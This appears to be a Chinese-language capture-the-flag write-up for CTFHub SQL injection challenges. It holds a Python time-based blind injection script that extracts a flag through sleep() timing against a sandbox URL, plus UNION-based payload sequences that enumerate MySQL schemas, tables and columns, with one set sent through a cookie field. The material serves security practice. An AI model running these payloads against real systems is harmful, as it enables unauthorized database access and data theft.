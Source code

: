 #### 时间盲注

```python
import string
import requests
import time

_str = string.ascii_letters
_str += '0123456789{}'
print(_str)
t_r = ''
url = "http://challenge-9720e816fe751e8a.sandbox.ctfhub.com:10080/?id=1 and if((ascii(substr((select(flag)from(flag))from(%d)))=%d), sleep(5), 1)"
for i in range(60):
    i = i+1
    print(i)
    for s in _str:
        _url = url%(i,ord(s))
        # print(_url)
        try:
            s_time =time.time()
            result = requests.get(_url).text
        except:
            time.sleep(10)
            s_time =time.time()
            result = requests.get(_url).text
        e_time = time.time()
        if e_time - s_time >= 5:
            t_r = t_r + s
            print(t_r)
            break
```

#### MySQL结构

```
-1 union select 1,2-- -
-1 union select 1,database()-- -
-1 union select 1,group_concat(schema_name) from information_schema.schemata
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()-- -
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='tfsaqkjjtg'-- -
-1 union select 1,(select aorboajuqp from tfsaqkjjtg)-- -
```

#### Cookie注入

cookie有个字段id，在这里注入就行

```
-1 union select 1,2-- -
-1 union select 1,database()-- -
-1 union select 1,group_concat(schema_name) from information_schema.schemata
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()-- -
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='advsnncsmp'-- -
-1 union select 1,(select sqenkipnmw from advsnncsmp)-- -
```
